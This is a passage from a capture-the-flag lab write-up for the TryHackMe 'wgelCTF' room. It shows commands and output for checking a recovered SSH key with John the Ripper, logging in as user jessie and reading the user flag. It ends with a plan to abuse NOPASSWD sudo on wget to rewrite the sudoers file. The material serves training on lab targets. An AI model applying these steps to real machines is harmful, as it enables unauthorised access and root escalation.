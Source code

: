 ### john the ripper

I did try to see if there was a password that JtR could help provide but no luck.
```
~/CTF/tryhackme/wgelCTF$ python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
id_rsa has no password!

```
So onwards and upwards! Lets continue with SSH.

```
~/CTF/tryhackme/wgelCTF$ ssh -i id_rsa jessie@$IP
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.15.115 (10.10.15.115)' can't be established.
ECDSA key fingerprint is SHA256:9XK3sKxz9xdPKOayx6kqd2PbTDDfGxj9K9aed2YtF0A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.15.115' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos
jessie@CorpOne:~$ cd Documents/
jessie@CorpOne:~/Documents$ ls
user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt 
<insert-flag-here> **[Task1 #1]**

```
We are in, and a quick search in the usual places gets us the user flag. Lets check out user jessie's permissions with a sudo -l

```
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```
So a quick look at GTFObins provides us with an oportunity to send and receive files with wget. Lets amend the actual sudoers file to give us access to all.
